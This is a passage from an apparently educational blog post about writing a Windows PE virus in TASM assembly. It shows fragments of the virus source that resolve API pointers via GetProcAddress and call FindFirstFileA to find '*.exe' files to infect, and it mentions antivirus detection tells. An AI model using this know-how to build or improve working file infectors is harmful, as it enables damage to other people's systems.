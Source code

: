 
For every function the virus wants to "link" it needs two things:

1. The name of the API in a null terminated string (e.g. `szFindFirstFileA` above holds `"FindFirstFileA\0"`).
1. A four byte var to hold the function pointer (e.g. `FindFirstFileA` above)

I chose the most naive solution for the first part and included the literal strings in the virus code. That's an obvious tell for AV since the virus code will now have function name strings like `"GetProcAddress\0"`,`"FindFirstFileA\0"` [embedded in each infected file](https://github.com/cpu/vexation/blob/master/apisafejector/apisafejector.exe.strings.txt) that aren't present in the file's PE imports. There are lots of various tricks for working around this but for now I'm ignoring AV "stealth".

One of the other challenges I encountered was finding a way to use raw function pointers with TASM while still having it handle the `stdcall` calling convention and argument checking. The solution to this was adding explicit `PROCDESC` types to reference for each `call` of a raw pointer.

You might notice that weird `call` syntax in the fragment above. It relies on a `procGetProcAddress` `PROCDESC`. In brief `PROCDESC` is a bit of TASM syntax that lets me give the assembler a description of the function I'm calling so it can use the correct calling convention and check the arguments. For `GetProcAddress` the `procGetProcAddress` `PROCDESC` looks like:

```nasm
procGetProcAddress PROCDESC stdcall baseAddr:DWORD,name:DWORD
```

It indicates that the `stdcall` calling convention should be used and there are two `DWORD` arguments: the base address of a DLL and a pointer to the name of the exported function to lookup.

The `apifind.asm` code uses a similar `PROCDESC` to invoke the `kernel32.FindFirstFileA` function by the address found with `GetProcAddress`:

```nasm{numberLines:true}
procFindFirstFileA PROCDESC stdcall fileName:DWORD,findData:DWORD

<snipped>

@@tryAPI:
  ; eax == lpFileName argument == "*.exe\0"
  mov eax, offset findFilter
  ; ebx == lpFindFileData argument
  mov ebx, offset findData
  ; edx == resolved address of FindFirstFileA in kernel32.dll
  mov edx, [FindFirstFileA]
  ; Invoke FindFirstFileA( eax, ebx ) by calling edx
  call (type procFindFirstFileA) PTR edx, eax, ebx
  ; If we got an invalid handle from FindFirstFileA that means there were no EXEs 
  ; in the directory.
  cmp eax, INVALID_HANDLE_VALUE
  je @@exit
  ; Otherwise an exe was found and the handle should be saved
  mov [findHandle], eax
```

End-to-end this is certainly more verbose than the simple `call <api>` that normal programs can get away with but virus code is "special" ;-D
